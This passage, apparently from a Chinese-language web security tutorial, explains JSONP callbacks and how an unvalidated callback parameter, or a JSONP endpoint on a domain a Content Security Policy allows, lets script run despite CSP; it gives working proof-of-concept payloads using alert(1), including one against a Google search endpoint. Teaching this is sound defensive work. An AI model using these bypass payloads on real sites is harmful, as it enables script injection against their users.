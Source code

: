 因此，我的網頁就可以透過 `setUsers` 這個 function 去接收資料：

``` html
<script>
  function setUsers(users) {
    console.log('Users from api:', users)
  }
</script>
<script src="https://example.com/api/users"></script>
```

但是這樣固定寫死函式名稱很不方便，因此後來常見的一個格式是：`https://example.com/api/users?callback=anyFunctionName`，回傳的內容就變成：

``` js
anyFunctionName([
  {id: 1, name: 'user01'},
  {id: 2, name: 'user02'}
])
```

如果 server 端沒有做好驗證，允許傳入任意字元的話，就可以使用這樣的網址：`https://example.com/api/users?callback=alert(1);console.log`；如此一來，回應就變成：

``` js
alert(1);console.log([
  {id: 1, name: 'user01'},
  {id: 2, name: 'user02'}
])
```

成功在回覆裡面插入了我們想要的程式碼，而這個技巧就可以運用在 CSP 的繞過上面。

舉例來說，假設我們允許了某一個網域的 script，而這個網域其實有一個支援 JSONP 的 URL，就可以利用它來繞過 CSP 執行程式碼，舉例來說：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.google.com https://www.gstatic.com">
</head>
<body>
  <div id=userContent>
    <script src="https://example.com"></script>
  </div>
  <script async src="https://www.google.com/recaptcha/api.js"></script>  
  <button class="g-recaptcha" data-sitekey="6LfkWL0eAAAAAPMfrKJF6v6aI-idx30rKs55Lxpw" data-callback='onSubmit'>Submit</button>
</body>
</html>
``` 

因為我們會用到 Google 的 reCAPTCHA，所以引入了相關的 script，也在 CSP 中新增了 `https://www.google.com` 這個 domain，否則 `https://www.google.com/recaptcha/api.js` 會被擋下來。

但好巧不巧，這個網域上就有一個支援 JSONP 的 URL：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.google.com https://www.gstatic.com">
</head>
<body>
  <div id=userContent>
    <script src="https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//"></script>
  </div>
</body>
```